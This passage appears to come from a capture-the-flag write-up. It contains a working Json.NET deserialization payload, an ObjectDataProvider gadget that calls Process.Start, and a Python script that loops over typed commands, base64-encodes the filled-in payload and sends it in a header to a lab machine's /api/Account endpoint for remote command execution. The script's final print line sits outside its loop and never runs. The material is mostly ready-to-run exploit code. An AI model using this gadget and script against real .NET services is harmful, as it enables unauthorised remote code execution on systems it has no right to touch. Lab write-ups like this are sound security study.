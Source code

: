 With this, I created a python script that inputs our command so our payload will be flexible.

New payload - payload_flex.txt:
```JSON
{
    '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
    'MethodName':'Start',
    'MethodParameters':{
        '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        '$values':['%s', '%s']
    },
    'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}
```
<br>
And our python exploit - json_exploit.py

```python
import requests
import base64

with open("payload_flex.txt","r") as rf:

	contents = rf.read()

#token = base64.b64encode(contents).decode()
#print(tokena)

while True:

	useri = input("Command: ")
	useri = useri.split(",")

	to_send = contents % (useri[0], useri[1])
	to_send = to_send.encode()	

	token = base64.b64encode(to_send)
	sess = requests.Session()

	print(type(token))

	headers = {
		'Content-Type' : 'application/json',
		'Application' : 'application/json',
		'Bearer' : token
	}

	page = sess.get('http://10.10.10.158/api/Account',headers=headers)

print(page.text)

```
